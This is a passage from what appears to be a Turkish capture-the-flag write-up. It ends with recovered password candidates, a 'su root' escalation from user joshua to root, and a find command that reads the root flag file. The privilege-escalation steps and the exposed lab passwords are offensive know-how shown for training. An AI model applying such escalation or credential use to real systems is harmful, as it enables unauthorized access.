 ```text title="Output" hl_lines="21"
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

Bulunan parola ile `root` kullanıcısına geçiş yaparak `joshua` --> `root` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
su root
```

Kullanıcı bayrağını ele geçirirken kullandığım komuta benzer bir komut ile `root` bayrağını ele geçirebildim:

```bash
find / -name *root.txt -type f -exec cat {} \; 2> /dev/null
```
